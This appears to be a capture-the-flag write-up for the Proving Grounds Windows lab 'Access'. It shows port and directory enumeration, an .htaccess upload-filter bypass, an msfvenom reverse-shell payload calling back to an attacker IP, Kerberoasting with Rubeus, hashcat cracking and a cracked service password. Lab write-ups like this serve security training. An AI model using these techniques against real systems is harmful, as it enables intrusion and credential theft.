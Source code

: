 # Access

## Intro

Access is a 'get to work' category intermediate Windows box hosted by offsec proving grounds.  

## Enum

### Nmap

All tcp ports.  

```
53/tcp    open  domain        syn-ack ttl 125 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2023-10-06 14:09:13Z)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 125
464/tcp   open  kpasswd5?     syn-ack ttl 125
593/tcp   open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 125
3268/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 125
5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 125 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

### Directory fuzzing

```
uploads
assets
forms
webalizer
phpmyadmin
Assets
Uploads
Forms
ticket.php
licenses
server-status
con
con.php
FORMS
UPLOADS
aux.php
aux
Ticket.php
prn
prn.php
server-info
ASSETS
Con.php
Con
UpLoads
```

## File upload

After trying to beat the filter and change the size due to my theory of the vulnerability being Image Magick, I researched a file upload  
vulnerability using htaccess file. Adding the following and uploading as .htaccess, all .php17 extensions will execute as php.  

```
AddType application/x-httpd-php .php17
```


Any webshell with an extension .php17 can be uploaded.  


## User shell

The following shell is uploaded and executed.  

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.196 LPORT=4444 -f exe > usershell.exe
```

## Lateral movement

As there is another user running as the service MSSQL, kerberoasting the password is as follows.  


Using Rubeus.exe  

```
C:\Windows\Temp\Rubeus.exe kerberoast /outfile:C:\xampp\htdocs\uploads\hashes.kerberoast
```

After transferring the file, cracking with hashcat.  

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

Which gives the cracked clear text password.  

```
trustno1
```


